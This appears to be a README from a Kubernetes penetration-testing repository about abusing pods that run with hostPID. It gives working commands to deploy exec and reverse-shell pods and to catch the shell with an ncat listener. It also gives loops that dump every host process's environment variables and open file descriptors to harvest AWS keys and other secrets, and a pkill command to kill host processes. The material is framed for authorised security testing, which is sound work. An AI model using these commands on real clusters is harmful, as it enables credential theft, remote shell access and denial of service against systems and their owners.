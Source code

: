 # Bad Pod #5: hostPID 
![](../../.github/images/Pod5.jpg)

There’s no clear path to get root on the node with only `hostPID`, but there are still some good post exploitation opportunities.  
*	**View processes on the host** – When you run ps from within a pod that has hostPID: true, you see all the processes running on the host, including processes running within each pod. 
*	**View the environment variables for each pod on the host** - With hostPID: true, you can read the /proc/[PID]/environ file for each process running on the host, including all processes running in pods. 
*	**View the file descriptors for each pod on the host** - With hostPID: true, you can read the /proc/[PID]/fd[X] for each process running on the host, including all of the processes running in pods. Some of these allow you to read files that are opened within pods. 
*	**Look for passwords, tokens, keys, etc.** – If you are lucky, you will find credentials and you’ll be able to use them to escalate privileges within the cluster, to escalate privileges services supported by the cluster, or to escalate privileges services that cluster-hosted applications are communicating with. It is a long shot, but you might find a Kubernetes service account token or some other authentication material that will allow you to access other namespaces and eventually escalate all the way up to cluster admin. 
*	**Kill processes** – You can also kill any process on the node (presenting a denial-of-service risk), but I would advise against it on a penetration test!

## Table of Contents
- [Bad Pod #5: hostPID](#bad-pod-5-hostpid)
  - [Table of Contents](#table-of-contents)
- [Pod creation & access](#pod-creation--access)
  - [Exec pods](#exec-pods)
  - [Reverse shell pods](#reverse-shell-pods)
  - [Deleting resources](#deleting-resources)
- [Post exploitation](#post-exploitation)
  - [View all processes running on the host and look for passwords, tokens, keys, etc.](#view-all-processes-running-on-the-host-and-look-for-passwords-tokens-keys-etc)
  - [View the environment variables for each pod on the host](#view-the-environment-variables-for-each-pod-on-the-host)
  - [View the file descriptors for each pod on the host](#view-the-file-descriptors-for-each-pod-on-the-host)
  - [Also, you can also kill any process, but don't do that in production :)](#also-you-can-also-kill-any-process-but-dont-do-that-in-production-)
  - [Attacks that apply to all pods, even without any special permissions](#attacks-that-apply-to-all-pods-even-without-any-special-permissions)
- [Demonstrate impact](#demonstrate-impact)
- [References and further reading:](#references-and-further-reading)

# Pod creation & access

## Exec pods
Create one or more of these resource types and exec into the pod

**Pod**  
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl exec -it hostpid-exec-pod -- bash
```
**Job, CronJob, Deployment, StatefulSet, ReplicaSet, ReplicationController, DaemonSet**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 

```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/[RESOURCE_TYPE]/hostpid-exec-[RESOURCE_TYPE].yaml 
kubectl get pods | grep hostpid-exec-[RESOURCE_TYPE]      
kubectl exec -it hostpid-exec-[RESOURCE_TYPE]-[ID] -- bash
```

*Keep in mind that if pod security policy blocks the pod, the resource type will still get created. The admission controller only blocks the pods that are created by the resource type.* 

To troubleshoot a case where you don't see pods, use `kubectl describe`

```
kubectl describe hostpid-exec-[RESOURCE_TYPE]
```

## Reverse shell pods
Create one or more of these resources and catch the reverse shell

**Step 1: Set up listener**
```bash
ncat --ssl -vlp 3116
```

**Step 2: Create pod from local manifest without modifying it by using env variables and envsubst**

* Replace [RESOURCE_TYPE] with deployment, statefulset, job, etc. 
* Replace the HOST and PORT values to point the reverse shell to your listener
* 
```bash
HOST="10.0.0.1" PORT="3116" envsubst < ./manifests/hostpid/[RESOURCE_TYPE]/hostpid-revshell-[RESOURCE_TYPE].yaml | kubectl apply -f -
```

**Step 3: Catch the shell**
```bash
$ ncat --ssl -vlp 3116
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: Listening on :::3116
Ncat: Listening on 0.0.0.0:3116
Connection received on 10.0.0.162 42035
```

## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/hostpid/pod/hostpid-exec-pod.yaml
kubectl delete pod hostpid-exec-pod
kubectl delete cronjob hostpid-exec-cronjob
```

# Post exploitation

## View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

## View the environment variables for each pod on the host
This lists the environ file for each process, and then uses xargs to split it up so that each environment variable is on it's own line:
```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done > envs.txt
```
Now it's time to look for interesting environment variables. 
```bash
root@hostpid-exec-pod:/# less envs.txt
...omitted for brevity...

/proc/578808/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=envar-demo
NPM_CONFIG_LOGLEVEL=info
NODE_VERSION=4.4.2
DEMO_FAREWELL=Such a sweet sorrow
DEMO_GREETING=Hello from the environment
AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
...omitted for brevity...
```
Oh look, an AWS IAM user key and secret! 

## View the file descriptors for each pod on the host
This lists out the file descriptors for each PID that we have access to.

```bash
for fd in `find /proc/*/fd`; do ls -al $fd/* 2>/dev/null | grep \>; done > fds.txt
```

Now it's time to look for interesting files. Oh look, a vim swp file!
```bash
less fds.txt
...omitted for brevity...
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/2 -> /dev/pts/0
lrwx------ 1 root root 64 Jun 15 02:25 /proc/635813/fd/4 -> /.secret.txt.swp
lrwx------ 1 root root 64 Jun 15 02:26 /proc/635975/fd/0 -> /dev/null
l-wx------ 1 root root 64 Jun 15 02:26 /proc/635975/fd/1 -> pipe:[65069205]
```

Let's see what's in `/.secret.txt.swp`. This file exists within a container, but we can access it by reading `/proc/635813/fd/4`!

```bash
cat /proc/635813/fd/4
3210#"! UtadBnnmAWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLEAWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEYI'm going to keep my secrets in this file!
```
More secrets!


## Also, you can also kill any process, but don't do that in production :)
```
pkill -f "nginx" 
```

## Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# References and further reading: 

